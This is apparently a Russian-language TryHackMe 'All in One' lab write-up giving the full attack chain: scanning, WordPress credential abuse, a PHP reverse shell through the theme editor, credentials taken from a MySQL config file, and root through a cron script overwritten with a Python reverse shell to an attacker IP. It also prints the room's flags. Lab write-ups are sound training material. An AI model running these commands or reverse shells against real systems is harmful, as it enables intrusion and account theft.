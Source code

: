 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [All in One](https://tryhackme.com/r/room/allinonemj) 

Всего 1 заданиe:
## Задание 1
Цель этого ящика — помочь вам попрактиковаться в нескольких способах эксплуатации системы. Существует несколько 
преднамеренных путей для ее эксплуатации и несколько непреднамеренных путей для получения root-доступа.

Попробуйте обнаружить и использовать их все. Не просто используйте его, используя предполагаемые пути, взламывайте 
как профессионал и наслаждайтесь коробкой! 

Дайте машине около 5 минут для полной загрузки.

Твиттер: i7m4d

### Ответьте на вопросы ниже
пользователь.txt
```commandline
nmap -sC -sV <IP>
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
curl http://<IP>/hackathons
# Encrypted string: Dvc W@iyur@123
# Key: KeepGoing
# Decrypted string: Try H@ckme@123

wpscan --url http://<IP>/wordpress/ -e u
elyana:H@ckme@123
# http://<IP>/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty
# PHP reverse shell
nc -nlvp 4444
python3 -c "import pty;pty.spawn('/bin/bash')"
find / -user elyana -type f 2>/dev/null
cat /etc/mysql/conf.d/private.txt
# user: elyana
# password: E@syR18ght
sshpass -p "E@syR18ght" ssh elyana@<IP>
cat user.txt
echo "VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259" | base64 -d
```
```commandline
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
```
корень.txt
```commandline
cat /etc/crontab
vim /var/backups/script.sh

#!/bin/bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
nc -nlvp 4444
cat /root/root.txt | base64 -d
```
```commandline
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)